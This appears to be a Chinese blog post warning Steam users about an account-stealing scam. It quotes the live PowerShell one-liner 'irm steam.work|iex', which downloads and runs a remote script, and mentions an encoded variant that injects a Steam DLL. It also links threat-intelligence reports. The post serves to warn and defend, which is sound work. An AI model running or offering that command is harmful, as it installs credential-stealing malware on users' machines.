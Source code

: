 ```yaml
---
title:  "Steam洗号事件调查结果"
date:  2024-01-12
tags: Steam
categories: article
---
```

确认以下事件
> 无登录记录

> 无启用APIToken

> 邮箱安全

近期误点击脚本（或淘宝购买低价游戏的激活脚本）警告
以下命令严禁执行
```shell
powershell 
irm steam.work|iex
```
irm是由公网下载脚本执行,steam.work是脚本地址，iex是传递命令
```shell
powershell -encodedCommand "XXXX(base64加密内容，此处不展示）"
```
解密后从公网下载内容并注入steam的dll。
经确认，此文件为盗号病毒。

[文件分析](https://s.threatbook.com/report/file/0e346983d60d9eaac363993c09285609af7fa1a461c3fb92659dc7936f68cddd)

[域名分析](https://x.threatbook.com/v5/domain/steam.work)

[域名脚本分析](https://s.threatbook.com/report/file/0b4f0b039f204b0eccf9cf7f98cb1847c7b8d75351ced15de63b4a560f657017)

目前，steam.work已自动跳转steam官方页面（严禁通过此域名访问），持续关注中
另，近期淘宝低价游戏（需要下载登陆器或执行命令后激活的）不要购买！！！

[同证书可疑域名(threatbook，放心打开)](https://x.threatbook.com/v5/domain/gligame.com)

[参考链接](https://www.cnblogs.com/macanpsc/p/17831267.html)